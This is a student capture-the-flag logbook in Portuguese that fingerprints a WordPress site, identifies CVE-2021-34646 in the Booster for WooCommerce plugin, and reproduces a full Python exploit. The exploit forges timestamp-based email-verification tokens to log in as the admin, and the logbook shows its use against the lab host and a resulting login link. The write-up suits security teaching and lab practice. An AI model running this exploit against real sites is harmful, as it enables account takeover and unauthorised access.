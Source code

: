 # LOGBOOK3 - Wordpress CVE

### Reconhecimento - Informações encontradas após utilizar o website
- **Versão do WordPress** - 5.8.1
  <br>
- **Plugins instalados e versões dos mesmos**:
    - WooCommerce plugin - 5.7.1
    - Booster for WooCommerce plugin - 5.4.3
      <br>
- **Possíveis utilizadores e nomes de utilizadores**:
    - admin
    - Orval Sanford

### Pesquisa por vulnerabilidades - Utilização de uma base de dados para descobrir a CVE
Utilizamos o website [Exploit Database](https://www.exploit-db.com) para descobrir com que vulnerabilidade estávamos a lidar e descobrimos que era a **CVE-2021-34646**.

Assim foi possível encontrar um script de python que era capaz de dar exploit a esta vulnerabilidade:
>1:
>Goto: https://target.com/wp-json/wp/v2/users/
>Pick a user-ID (e.g. 1 - usualy is the admin)
>
>2:
Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
>
>3:
>Check-Out  out which of the generated links allows you to access the system
>
>import requests,sys,hashlib
> 
>import argparse
> 
>import datetime
> 
>import email.utils
> 
>import calendar
> 
>import base64
>
>B = "\033[94m"
> 
>W = "\033[97m"
> 
>R = "\033[91m"
> 
>RST = "\033[0;0m"
>
>parser = argparse.ArgumentParser()
> 
>parser.add_argument("url", help="the base url")
> 
>parser.add_argument('id', type=int, help='the user id', default=1)
> 
>args = parser.parse_args()
> 
>id = str(args.id)
> 
>url = args.url
> 
>if args.url[-1] != "/": # URL needs trailing /
> 
>url = url + "/"
>
>verify_url= url + "?wcj_user_id=" + id
> 
>r = requests.get(verify_url)
>
>if r.status_code != 200:
> 
>print("status code != 200")
> 
>print(r.headers)
> 
>sys.exit(-1)
>
>def email_time_to_timestamp(s):
> 
>tt = email.utils.parsedate_tz(s)
> 
>if tt is None: return None
> 
>return calendar.timegm(tt) - tt[9]
>
>date = r.headers["Date"]
> 
>unix = email_time_to_timestamp(date)
>
>def printBanner():
> 
>print(f"{W}Timestamp: {B}" + date)
> 
> 
>print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
> 
>print("We need to generate multiple timestamps in order to avoid delay related timing errors")
> 
>print("One of the following links will log you in...\n")
>
>printBanner()
> 
>for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
>
>hash = hashlib.md5(str(unix-i).encode()).hexdigest()
>
>print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
>
>token='{"id":"'+ id +'","code":"'+hash+'"}'
>
>token = base64.b64encode(token.encode()).decode()
>
>token = token.rstrip("=") # remove trailing =
>
>link = url+"my-account/?wcj_verify_email="+token
>
>print(link + f"\n{RST}")


De forma a conseguirmos utilizar este script temos de o correr utilizando este comando './exploit_CVE-2021-34646.py https://target.com/ 1' que neste caso seria './50299.py http://ctf-fsi.fe.up.pt:5001 1', sendo o segundo elemento o link para o website e o terceiro elemento o id do utilizador ao qual conta queremos aceder (admin id = 1).

Com isto são gerados três links que nos permitem aceder a certas contas. Utilizando o link 'http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOWEwYzQ3MzcwZGY5ODBhNDU5NTYwYWIzYTUxNTI0NGYifQ', somos redirecionados para o mesmo website mas desta vez estando dentro da conta de um admin. Ai conseguimos aceder a uma mensagem privada aonde é mencionada a flag:

**flag{please don't bother me}**

